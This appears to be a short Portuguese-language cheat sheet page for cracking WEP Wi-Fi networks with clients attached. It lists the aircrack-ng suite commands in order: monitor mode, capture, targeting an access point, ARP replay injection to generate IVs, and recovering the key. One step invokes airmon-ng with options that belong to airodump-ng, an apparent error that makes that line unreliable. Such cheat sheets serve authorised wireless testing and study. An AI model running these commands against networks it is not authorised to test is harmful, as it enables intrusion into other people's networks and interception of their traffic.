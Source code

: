 ```yaml
---
title: "Wi-fi Cheat Sheet"
permalink: /wifi-cs/
layout: archive
author_profile: true
---
```


# Rede WEP
## Ataque: WEP com clientes

Colocando a placa em modo monitor
```
airmon-ng start wlan1
```

Dump do conteúdo capturado pela placa
```
airodump-ng wlan1mon
```

Travando a placa no alvo e salvando o conteúdo capturado em um arquivo
```
airmon-ng --essid <target-wifi> --channel <channel> wlan1mon -w wep
```

Gerando tráfego para capturar o IV
```
aireplay-ng -3 -b $bssid -h $client wlan1mon
```

Quebrando a chave capturada
```
aircrack-ng -a 1 wep-0*.cap
```